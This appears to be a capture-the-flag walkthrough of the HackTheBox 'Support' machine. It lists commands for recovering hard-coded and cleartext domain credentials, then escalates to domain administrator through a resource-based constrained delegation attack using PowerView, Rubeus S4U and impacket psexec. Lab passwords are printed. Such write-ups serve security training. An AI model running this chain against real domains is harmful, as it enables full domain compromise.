

# [Support](https://app.hackthebox.com/machines/Support)

```bash
nmap -p- --min-rate 10000 10.10.11.174 -Pn    
```


After finding open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p53,135,139,445,464 10.10.11.174 -Pn 
```


I can also see `UDP` port, let's look at this.


After running `crackmapexec` against our target, I see that `support.htb` is domain name, let's add this into `/etc/hosts` file for resolving purposes.
```bash
crackmapexec smb 10.10.11.174
```


We also know that this is `Domain Controller`.

I looked at shares by adding `--shares` option.


Let's access into `supports-tools` share via `smbclient`.
```bash
smbclient //10.10.11.174/support-tools -N 
```


I got `UserInfo.exe` from and look at `dnspy` tool to see logic of this executable.

I get method of encryption.


I also get encrypted password on source code of this application as `hard-coded`.


I found decryption way of this and got password already.


That's credentials of `ldap` user.

ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz


Let's verify this credentials via `crackmapexec`.
```bash
crackmapexec smb 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```


As I have Domain credentials, I can dump all related info about `LDAP`, that's why I will use `ldapdomaindump` tool.

```bash
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap
```




By reading `domain_users.json` file, I see that one `info` from `support` user that has clear-text credentials.


support: Ironside47pleasure40Watchful

Let's check this credentials via `crackmapexec`.
```bash
crackmapexec smb 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```


Let's login into machine via `evil-winrm` by grabbed credentials.
```bash
evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```

user.txt


Let's run `bloodhound-python` via this credentials to get all information about domain.
```bash
bloodhound-python -d support.htb -u support -p Ironside47pleasure40Watchful -gc support.htb -c all -ns 10.10.11.174
```


Let's run our `bloodhound` to enumerate this data.


While I run `net user support` , I see that this user belongs to `Shared Account Operators` group.


From `bloodhound` enumeration, I see that this `Shared Account Operators` group has `GenericAll` privilege to `Domain Controller`.


As a result, we know that we have `full rights` to `dc.support.htb` object.

```bash
New-MachineAccount -MachineAccount dr4ksFakeComputer -Password $(ConvertTo-SecureString 'dr4ksdr4ks123' -AsPlainText -Force)
```

```bash
$fakesid = Get-DomainComputer dr4ksFakeComputer | select -expand objectsid
$fakesid
```

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Verification is below one.

```bash
$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
$Descriptor.DiscretionaryAcl
```


Final result:


Let's upload `Rubeus.exe` to get Kerberos ticket.

1.First, we need to get `rc4_hmac` hash via below command.
```bash
.\Rubeus.exe hash /password:dr4ksdr4ks123 /user:dr4ksFakeComputer /domain:support.htb
```


2.Let's do `S4u` for `Rubeus.exe`.
```bash
.\Rubeus.exe s4u /user:dr4ksFakeComputer$ /rc4:818B23D113D0CE761B84B0DFAFA38DAE /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```


Let's save this on our local machine.


Let's convert this into `.ccache` format from `.kirbi`.

```bash
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```


Let's use this ticket for authentication to system as `Administrator` user.
```bash
KRB5CCNAME=ticket.ccache python3 /usr/share/doc/python3-impacket/examples/psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

root.txt

